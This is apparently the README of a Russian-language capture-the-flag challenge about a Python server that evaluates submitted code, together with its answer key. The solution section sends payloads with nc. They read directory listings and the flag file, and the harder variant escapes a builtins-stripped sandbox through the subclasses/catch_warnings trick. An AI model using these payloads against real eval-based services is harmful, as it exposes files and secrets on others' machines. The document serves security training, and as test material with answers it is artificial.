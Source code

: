 Python eval
===========
**eval**
> Боб настолько любит Python, что не может прожить без него ни дня, но что делать если на новом рабочем компьютере Боба Python еще не установлен?  
> Боб написал небольшой скрипт, который принимает строку кода и исполняет ее, и запустил его у себя дома. Теперь Боб может в любое время писать код. Но, к сожалению, он не знал, что его код не безопасен. Говорят на его домашнем компьютере лежат секретные данные. Заполучите их!  

---

**eval hardned**
> К сожалению, кто-то взломал сервер, уже знакомого вам Боба, и секретные данные с его компьютера попали в сеть. Из-за этого он лишился работы и, как мы подозреваем, стал работать на тайную организацию, целью которой является - захват Мира.  
> Несмотря на то, что Боб улучшил защиту сервера, вам придется вновь взломать его, постарайтесь исправить то, что вы натворили в прошлый раз.  

Файлы
-----
1. **eval.py** - Псевдо исходный код, который доступен участникам
2. **eval2.py** - Псевдо исходный код для "harder", который доступен участникам
3. **159fe327e79316e0f9169fa326fafbd1.txt** - Файл с флагом
4. **blacklist.txt** - Файл с запрещенными словами
5. **server.py** - Исходный код
6. **server2.py** - Исходный код "harder" версии

Запуск
------
```
python3 server.py [-h] [-host HOST] [-p PORT] [-cpu CPU] [-t TIMEOUT]
```
host - Имя хоста, по умолчанию - socket.gethostname()  
port - Порт, по умолчанию 1337  
cpu - Количество одновременно запущенных процессов, по умолчанию 16  
timeout - Время жизни одного процесса, по умолчанию 3 секунды  

---

[Описание проблемы](https://habrahabr.ru/post/221937/)  
Единственное отличие "harder" версии от обычной в том, что теперь закрыт доступ не только к глобальным переменным, но и к \__builtins__

---

Решение
-------
1. Получить список файлов в папке  
    ```
    echo "__import__('os').listdir()" | nc адрес порт
    ```
2. Прочесть флаг  
    ```
    echo "open('имя файла с флагом').read()" | nc адрес порт
    ```  

Решение "harder" версии
------------------
1. Получить доступ к встроенным \__builtins__  
    ```
    [x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__
    ```
2. Получить список файлов в папке  
    ```
    echo "[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['__import__']('os').listdir()" | nc адрес порт
    ```
3. Прочесть флаг  
    ```
    echo "[x for x in (1).__class__.__base__.__subclasses__() if x.__name__ == 'catch_warnings'][0]()._module.__builtins__['open']('имя файла с флагом').read()" | nc адрес порт
    ```

[Источник](https://www.reddit.com/r/Python/comments/hftnp/ask_rpython_recovering_cleared_globals#thing_t1_c1v372r)